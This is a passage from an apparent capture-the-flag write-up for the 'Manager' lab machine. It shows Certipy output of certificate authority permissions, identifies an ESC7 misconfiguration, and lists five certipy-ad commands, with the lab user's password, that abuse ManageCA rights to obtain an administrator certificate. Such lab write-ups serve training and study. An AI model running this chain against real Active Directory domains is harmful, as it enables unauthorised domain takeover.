 ```terminal
[*] Using the search base 'CN=Configuration,DC=manager,DC=htb'

[*] Listing info about the Enterprise CA 'manager-DC01-CA'

    Enterprise CA Name            : manager-DC01-CA
    DNS Hostname                  : dc01.manager.htb
    FullName                      : dc01.manager.htb\manager-DC01-CA
    Flags                         : SUPPORTS_NT_AUTHENTICATION, CA_SERVERTYPE_ADVANCED
    Cert SubjectName              : CN=manager-DC01-CA, DC=manager, DC=htb
    Cert Thumbprint               : ACE850A2892B1614526F7F2151EE76E752415023
    Cert Serial                   : 5150CE6EC048749448C7390A52F264BB
    Cert Start Date               : 7/27/2023 3:21:05 AM
    Cert End Date                 : 7/27/2122 3:31:04 AM
    Cert Chain                    : CN=manager-DC01-CA,DC=manager,DC=htb
    UserSpecifiedSAN              : Disabled
    CA Permissions                :
      Owner: BUILTIN\Administrators        S-1-5-32-544

      Access Rights                                     Principal

      Deny   ManageCA, Read                             MANAGER\Operator              S-1-5-21-4078382237-1492182817-2568127209-1119
      Allow  Enroll                                     NT AUTHORITY\Authenticated UsersS-1-5-11
      Allow  ManageCA, ManageCertificates               BUILTIN\Administrators        S-1-5-32-544
      Allow  ManageCA, ManageCertificates               MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
      Allow  ManageCA, ManageCertificates               MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
      Allow  ManageCA, Enroll                           MANAGER\Raven                 S-1-5-21-4078382237-1492182817-2568127209-1116
      Allow  Enroll                                     MANAGER\Operator              S-1-5-21-4078382237-1492182817-2568127209-1119
    Enrollment Agent Restrictions : None


```

Here we can see that user `Raven` has `ManageCA` rights on `manager-DC01-CA` certificate, this vulnerability is known as [ESC7](https://github.com/ly4k/Certipy?tab=readme-ov-file#esc7).

To exploit this we need to run the following commands.

```shell
certipy-ad ca -ca 'manager-DC01-CA' -add-officer raven -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123'
certipy-ad ca -ca 'manager-DC01-CA' -enable-template SubCA -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123'
certipy-ad req -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123' -ca manager-DC01-CA -target manager.htb -template SubCA -upn administrator@manager.htb
certipy-ad ca -ca 'manager-DC01-CA' -issue-request 13 -username 'raven@manager.htb' -password 'R4v3nBe5tD3veloP3r!123'
certipy-ad req -ca 'manager-DC01-CA' -target manager.htb -u 'raven@manager.htb' -p 'R4v3nBe5tD3veloP3r!123' -retrieve 13
```
